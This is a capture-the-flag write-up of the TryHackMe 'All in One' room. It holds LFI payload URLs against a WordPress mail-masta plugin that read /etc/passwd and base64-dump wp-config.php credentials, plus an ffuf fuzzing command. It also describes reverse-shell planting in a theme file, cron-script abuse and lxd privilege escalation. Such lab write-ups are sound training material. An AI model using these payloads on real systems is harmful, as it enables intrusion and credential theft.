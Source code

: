 #LFI #lxd #lxc #alpine

https://tryhackme.com/r/room/allinonemj

---
#### Nmap
![[Screenshot_2024-05-28_16-40-09.png]]

Absolutely nothing on the FTP as anonymous, let's go enumerate

**On `/`**
![[Screenshot_2024-05-28_16-53-04.png]]

On the `/hackthons` page, there are one sentence and some comments:
```text
<h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>

<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

And there is a `/wordpress` , `5.5.1 version` this time

`wpscan` gave me this [CVE-2016-10956](https://www.exploit-db.com/exploits/40290) to do some **L**ocal **F**ile **I**ntrusion
```text
http://10.10.112.117/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

It gave the the user `elyana`

[Here](https://www.infosecinstitute.com/resources/hacking/local-file-inclusion-code-execution/) is a good article about LFI techniques

I tried this LFI payload but nothing happened: `?pl=/proc/self/environ&cmd=cat /etc/passwd` 

I try to enumerate with in LFI, I've found a lot of useless shit:
```shell
ffuf -u 'http://10.10.112.117/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=FUZZ' -w file_inclusion_linux.txt -fc 500
```

![[Screenshot_2024-05-28_18-18-09.png]]

I found the basic wordpress data structure [here](https://github.com/cyberteach360/Hacking-Wordpress) and I used the php filter to base 64 encode `wp-config.php`'s content:
```text
http://10.10.139.210/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

Once decoded, it gave me this:
```text
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );
```

With these creds, I am able to connect on `elyana`'s account.

So I changed the `404.php` page of the current theme (twentytwenty) and I placed a reverse shell in it. Then I triggered it by going to this url:
```text
http://10.10.139.210/wordpress/wp-content/themes/twentytwenty/404.php
```

And here I m in

There was a crontab executing `/var/backups/script.sh` as root with `0777` permissions on it, so I just created a second reverse shell to get root

And here I m root

Another way of escalate is the `lxd/lxc Group` with alpine shit [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
